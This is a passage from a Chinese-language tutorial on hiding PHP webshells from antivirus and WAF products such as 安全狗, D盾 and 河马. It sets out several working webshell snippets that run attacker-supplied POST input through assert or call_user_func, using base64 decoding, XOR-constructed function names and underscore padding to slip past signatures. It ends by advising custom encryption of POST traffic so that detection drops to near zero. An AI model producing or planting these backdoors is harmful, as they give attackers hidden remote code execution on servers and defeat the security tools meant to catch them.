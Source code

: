 # 9. 编码绕过
用 php 的编码函数，或者用异或、简单的 base64_decode, 其中因为他的正则匹配可以加入一些下划线干扰杀软
```php
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST[x]);
?>
//异或
<?php
$a= ("!"^"@").'ssert';
$a($_POST[x]);
?>
```
# 10. 无字符特征马
对于无特征马这里我的意思是无字符特征

## 10.1. 利用异或, 编码等方式 例如 p 神博客的
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
## 10.2. 利用正则匹配字符 如 Tab 等 然后转换为字符
## 10.3. 利用 POST 包获取关键参数执行 例如
```php
<?php
$decrpt = $_POST['x'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
call_user_func($arrs[0],$arrs[1]);
?>
```
# 11. PHP7.1 后 webshell 何去何从
在 php7.1 后面我们已经不能使用强大的 assert 函数了用 eval 将更加注重特殊的调用方法和一些字符干扰, 后期大家可能更加倾向使用大马
# 12. 总结
* 对于安全狗杀形，d 盾杀参的思路来绕过。生僻的回调函数, 特殊的加密方式, 以及关键词的后传入都是不错的选择。
* 对于关键词的后传入对免杀安全狗，d 盾，河马 等等都是不错的，后期对于菜刀的轮子，也要走向高度的自定义化
* 用户可以对传出的 post 数据进行自定义脚本加密，再由 webshell 进行解密获取参数，那么以现在的软 WAF 查杀能力几乎为 0，安全软件也需要与时俱进了。
